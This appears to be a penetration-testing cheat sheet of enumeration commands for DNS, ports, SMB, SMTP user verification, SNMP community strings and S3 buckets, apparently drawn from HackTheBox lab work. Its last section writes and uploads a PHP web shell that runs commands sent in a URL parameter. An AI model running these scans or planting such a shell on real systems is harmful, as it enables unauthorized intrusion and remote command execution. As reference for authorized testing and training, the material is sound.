 # Enumeration Cheat Sheet

## DNS Enumeration

### Custom Host Enumeration
```bash
for ip in $(cat list.txt); do host $ip.-host-.com; done
```

### PTR Record Scan
```bash
for ip in $(seq 200 254); do host -host-.$ip; done | grep -v "not found"
```

### Automated Recon
```bash
dnsrecon -d -host- -t std
dnsrecon -d -host- -D ~/list.txt -t brt
dnsenum
```

### Subdomain Enumeration
```bash
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
```

### Windows
```bash
nslookup
```

---

## TCP/UDP Enumeration

### Netcat Scanning

**TCP**
```bash
nc -nvv -w 1 -z <host> <port-port>
```

**UDP**
```bash
nc -nv -u -z -w 1 <host> <port-port>
```

### Nmap Sweep Scans

**Ping Sweep**
```bash
nmap -sn <host>
nmap -v -sn <host> -oG ping-sweep.txt
grep Up ping-sweep.txt | cut -d " " -f 2
```

**Port Scan**
```bash
nmap -p <port> <host> -oG web-sweep.txt
grep open web-sweep.txt | cut -d" " -f2
```

**OS Fingerprinting**
```bash
sudo nmap -O <host> --osscan-guess
nmap -sT -A <host> --aggressive
```

### Windows
```powershell
Test-NetConnection -Port 445 <host>
```

---

## SMB Enumeration

```bash
sudo nbtscan -r <network>/24
nmap -v -p 139,445 --script smb-os-discovery <host>
```

**Windows**
```powershell
net view \\dc01 /all
```

---

## SMTP Enumeration

**Manual User Verification**
```bash
nc -nv <host> 25
```

**Automated User Verification**
```bash
python3 smtp_verify.py <user> <host>
```

```python
#!/usr/bin/python
# smtp_verify.py
import socket, sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <username> <target_ip>")
    sys.exit(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = sys.argv[2]
s.connect((ip, 25))
print(s.recv(1024))

user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
print(s.recv(1024))
```

**Windows**
```powershell
Test-NetConnection -Port 25 <host>
dism /online /Enable-Feature /FeatureName:TelnetClient
telnet <host> 25
```

---

## SNMP Enumeration

```bash
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# Community strings
echo public > community
echo private >> community
echo manager >> community

# Host IPs
for ip in $(seq 1 254); do echo <host>.$ip; done > ips

# Scan with onesixtyone
onesixtyone -c community -i ips
```

**snmpwalk Queries**
```bash
snmpwalk -c public -v1 -t 10 <host>
snmpwalk -c public -v1 <host> 1.3.6.1.4.1.77.1.2.25      # Users
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.4.2.1.2     # Processes
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.6.3.1.2     # Installed Software
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.6.13.1.3       # Listening TCP Ports
```

---

## AWS S3 Bucket Enumeration

```bash
# Check Auth
aws --endpoint=http://<host> s3 ls

# List Buckets
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

# Upload Shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Access:
```
http://<host>/shell.php?cmd=id
```